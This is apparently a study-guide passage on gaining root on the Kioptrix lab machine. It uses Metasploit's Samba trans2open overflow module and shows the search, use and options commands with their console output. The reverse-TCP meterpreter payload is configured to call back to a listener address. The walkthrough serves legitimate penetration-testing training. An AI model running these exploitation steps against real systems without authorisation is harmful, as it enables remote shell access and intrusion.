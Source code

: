 
# Gaining Root w/ Metasploit
Before we pop a shell on Kioptrix, let's choose an exploit we want to use. Going back to what we found *via [searchsploit](cybersecurity/tools/exploitation/searchsploit.md)* we can even find one which has a *known [Metasploit](cybersecurity/tools/exploitation/metasploit.md) module*:
![](/nested-repos/PNPT-study-guide/PNPT-pics/gaining-root-1.png)
Since it shows up so often in the output, let's try [trans2open](/cybersecurity/vulnerabilities/trans2.md) 
## Running Metasploit
### `search`
Once we've executed `msfconsole` and we're in the Metasploit console, we can search for trans2open w/ the `search` command:
```bash
msf6 > search trans2open

Matching Modules
================
#  Name                              Disclosure Date  Rank   Check  Description
-  ----                              ---------------  ----   -----  -----------
0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open 
	Overflow (*BSD x86)
1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open 
	Overflow (Linux x86)
2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open 
	Overflow (Mac OS X PPC)
3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open 
	Overflow (Solaris SPARC)

Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open
```
### `use`
From this list we can use the `use` command to choose a specific module and enter its context (make sure to choose one which matches the target):
```bash
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 
```
### `options`
Now that our context is set, we can use `options` to see what configurable variables there are for this module:
```bash
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see <link>
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.4         yes       The listen address (an interface may be 
									   specified)
   LPORT  4444             yes       The listen port

Exploit target:
   Id  Name
```